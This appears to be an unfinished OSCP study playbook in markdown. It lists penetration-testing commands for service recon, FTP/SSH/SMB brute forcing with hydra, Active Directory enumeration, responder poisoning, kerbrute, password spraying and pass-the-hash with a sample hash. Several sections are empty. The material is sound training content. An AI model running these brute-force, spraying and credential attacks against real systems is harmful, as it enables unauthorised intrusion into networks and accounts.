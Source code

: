# OSCP PlayBook

## Table of Contents
- [Recon](#recon)
    - [Nmap](#nmap)
    - [Services](#services)
        - [FTP](#ftp-port-21)
        - [SSh](#ssh-port-22)
        - [Http/ Https](#http-https-ports-80-443)
        - [SMB/ Samba](#smb-samba-ports-137-138-139-445)
        - [SMTP](#smtp-ports-25-587-465)
        - [IMAP/ POP3](#imap-pop3-ports-110-143-993-995)
        - [MSSQL](#mssql-port-1433)
        - [MySQL](#mysql-port-3306)
- [Active Directory](#active-directory)

## Recon

#### Nmap
```c
#Quick scan
nmap -p- IP

#Thorough scan
sudo nmap -sC -sV -p- IP 

#UDP Scan
sudo nmap -sU IP
```

### Services

#### FTP Port 21
```c
#Connect
ftp IP PORT
nc -nv IP PORT
telnet IP PORT
openssl s_client -connect IP:PORT -starttls ftp

#anonymous login, try both
username: anonymous password: blank
username: anonymous password: anonymous

#Brute Force login
hydra -L username.list -P password.list ftp://IP
```
#### SSH Port 22
```c
#Connect
ssh username@IP
ssh username@IP -p PORT

#Connect with Key
chmod 600 rsa_key
ssh -i rsa_key username@IP 

#Brute Force Login
hydra -L username.list -P password.list ssh://IP
```

#### HTTP/ HTTPS Ports 80/ 443
```c
```

#### SMB/ Samba Ports 137, 138, 139, 445
```c
Windows
    cmd:
        # Connect
        dir \\IP\Share
        net use n: \\IP\Share /user:user Password

        # Enumerate
        dir n: /a-d /s /b | find /c ":\"
        n:\*name* /s /b
    PS1:
        # Connect
        Get-ChildItem \\IP\Share
        New-PSDrive -Name "N" -Root "\\IP\Share" -PSProvider "FileSystem"

        # With credentials
        $password = 'abc' 
        $secpassword = ConvertTo-SecureString $password -AsPlainText -Force
        $cred = New-Object System.Management.Automation.PSCredential $username, $secpassword
        Get-ChildItem -Recurse -Path N:\ -Include *cred* -File

Linux
    # Enumerate Shares
    smbclient -N -L //IP
    smbmap -H IP
    crackmapexec smb IP --shares -u '' -p ''

    # Enumerate Users/ Passwords
    hydra -L user.list -P password.list smb://IP
    MSF Smb_Login
    crackmapexec smb IP -u userlist.txt -p password.txt --local-auth

    # Login
    smbclient -U user //IP/share

    # Mount Drive
    sudo mkdir /mnt/test
    sudo mount -t cifs -o username=Username,password=Password,domain=. //IP/Share /mnt/test
```

#### SMTP Ports 25, 587, 465
```c
```

#### IMAP/ POP3 Ports 110, 143, 993, 995
```c
```

#### MSSQL Port 1433
```c
```

#### MySQL Port 3306
```c
```


## Enumeration

### Linx

### Windows

## Exploit

### Linx

### Windows


## Active Directory
### Enumeration
#### Passive
```c
sudo tcpdump -i ens224

sudo responder -I ens224 -A
```

#### Active
```c
# Ping Sweep
    - Linux
        for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
        fping -asgq 172.16.5.0/23

    - Windows
        CMD: for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
        PS1: 1..254 | % {"172.16.5.$($*): $(Test-Connection -count 1 -comp 172.15.5.$($*) -quiet)"}


# User Enumeration
    - Linux
        kerbrute userenum -d DOMAIN_NAME --dc DC_IP username_wordlist.txt -o valid_ad_users
        enum4linux -U IP | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
        rpcclient -U "" -N IP
        crackmapexec smb IP --users

    # Need valid credentials
    - Linux
        sudo crackmapexec smb CD_IP -u valid_user -p valid_pass (--users or --groups or --loggedon-users or --shares or -M spider_plus --share 'sharename')
        python3 windapsearch.py --dc-ip DC_IP -u USERNAME@DOMAIN_NAME -p Password --da
        python3 windapsearch.py --dc-ip DC_IP -u USERNAME@DOMAIN_NAME -p Password -PU
    - Windows


# Get Password Policy
    - Linux
        crackmapexec smb IP -u username -p password --pass-pol
        rpcclient -U "" -N IP  ->  querydominfo
        ldapsearch -h IP -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
        enum4linux -P IP
        enum4linux-ng -P IP -oA file.txt
    - Windows
        CMD
            net use \\host\ipc$ "" /u:""
            net accounts
        PS1
            import-module .\PowerView.ps1  ->  Get-DomainPolicy


# Password Spray
    - Linux
        for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" IP | grep Authority; done
        kerbrute passwordspray -d DOMAIN_NAME --dc IP valid_users.txt Password
        sudo crackmapexec smb IP -u valid_users.txt -p Password123 | grep +
        sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
    - Windows
        Import-Module .\DomainPasswordSpray.ps1
        Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue


# Enumerate Secruity Controls
    - Windows
        Get-MpComputerStatus
        Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
        $ExecutionContext.SessionState.LanguageMode
        Find-LAPSDelegatedGroups
        Find-AdmPwdExtendedRights
        Get-LAPSComputers
```



### Exploit
```c
```